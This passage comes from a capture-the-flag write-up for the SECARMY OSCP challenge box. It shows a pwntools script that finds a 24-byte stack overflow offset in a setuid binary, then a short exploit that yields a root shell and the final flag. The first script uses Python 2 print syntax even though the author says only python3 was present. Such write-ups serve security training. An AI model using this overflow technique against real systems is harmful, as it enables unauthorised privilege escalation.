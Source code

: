 I considered trying some advanced ROP, but thought a bruteforcer might be more appropriate for a first try. Only python3 was installed on the box, which was disappointing because I prefer working with bytes in python2. Luckily, I could install pwntools on the box for python3 though. I decided to download the binary with `scp` and mess around on my own machine. I wrote this bruteforcing script that identified 24 bytes to be the correct offset:

```
from pwn import *
key=p32(0xcafebabe)
print "Brute-Force for the value starts"
for i in range (0, 41):
    p = process("./orangutan")
    p.sendline('A' * i + key)
    print "current offset", i
    p.interactive()
```

I wrote a stripped down script with just the correct offset on the victim machine:

```
nueve@svos:~$ pip3 install pwntools
...
nueve@svos:~$ cat bof.py 
from pwn import *
key=p32(0xcafebabe)
p = process("./orangutan")
p.sendline(bytes('A' * 24, 'utf-8') + key)
p.interactive()

nueve@svos:~$ python3 bof.py 
[+] Starting local process './orangutan': pid 15307
[*] Switching to interactive mode
hello pwner 
pwnme if u can ;) 
$ whoami
root
$ ls /root
pw.sh  root.txt  svos_password_recovery
$ cat /root/root.txt
Congratulations!!!

You have finally completed the SECARMY OSCP Giveaway Machine

Here's your final flag segment: flag10{33c9661bfd}

Head over to https://secarmyvillage.ml/ for submitting the flags!
```

This was a fun and at times difficult challenge box. Thanks to the people at SECARMY and Grayhat that hosted this!
